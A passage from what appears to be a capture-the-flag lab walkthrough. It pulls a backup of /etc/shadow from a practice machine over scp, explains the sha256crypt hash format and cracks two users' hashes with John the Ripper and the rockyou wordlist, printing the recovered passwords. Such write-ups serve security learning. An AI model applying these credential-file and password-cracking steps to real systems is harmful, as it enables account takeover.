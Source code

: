 Is this really a backup of the `/etc/shadow` that contains the password hashes of
our users?? Let's pull it down and work on it locally..

```
$ scp -P 22022 sunny@10.10.10.76:/backup/shadow.backup .
Password:
shadow.backup                                      100%  319     1.5KB/s   00:00
```

Okay.. we need to know what the hash `$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB` corresponds to.

Looking up the format of `/etc/shadow`, we come to know that..

```
The hash field itself is comprised of three different fields. They are separated by
'$' and represent:

 1. Some characters which represents the cryptographic hashing mechanism used to
    generate the actual hash
 2. A randomly generated salt to safeguard against rainbow table attacks
 3. The hash which results from joining the users password with the stored salt and
    running it through the hashing mechanism specified in the first field

https://www.aychedee.com/2012/03/14/etc_shadow-password-hash-formats/
```

So in our case:

 1. Mechanism: `5` (`sha256`)
 2. Salt: `Ebkn8jlK`
 3. Hash: `i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB`

Let's try `John the Ripper` to see if we can crack the hash.

```
$ /usr/sbin/john --wordlist=/usr/share/john/password.lst --rules shadow.backup --format=sha256crypt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha256crypt, crypt(3) $5$ [SHA256 128/128 AVX 4x])
Press 'q' or Ctrl-C to abort, almost any other key for status
sunday           (sunny)
1g 0:00:01:40 DONE (2018-09-10 22:15) 0.009973g/s 1562p/s 1582c/s 1582C/s Changeiting..Sssing
Use the "--show" option to display all of the cracked passwords reliably
Session completed
 /usr/sbin/john --show shadow.backup
sunny:sunday:17636::::::

1 password hash cracked, 1 left
```

Okay.. so we were able to crack the hash of the password we already know, but we need
to do a little more work for `sammy`.

```
$ /usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt --rules shadow.backup --format=sha256crypt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha256crypt, crypt(3) $5$ [SHA256 128/128 AVX 4x])
Remaining 1 password hash
Press 'q' or Ctrl-C to abort, almost any other key for status
cooldude!        (sammy)
1g 0:00:02:11 DONE (2018-09-10 22:30) 0.007590g/s 1546p/s 1546c/s 1546C/s coolster..chs2009
Use the "--show" option to display all of the cracked passwords reliably
Session completed
$ /usr/sbin/john --show shadow.backup
sammy:cooldude!:6445::::::
sunny:sunday:17636::::::
```
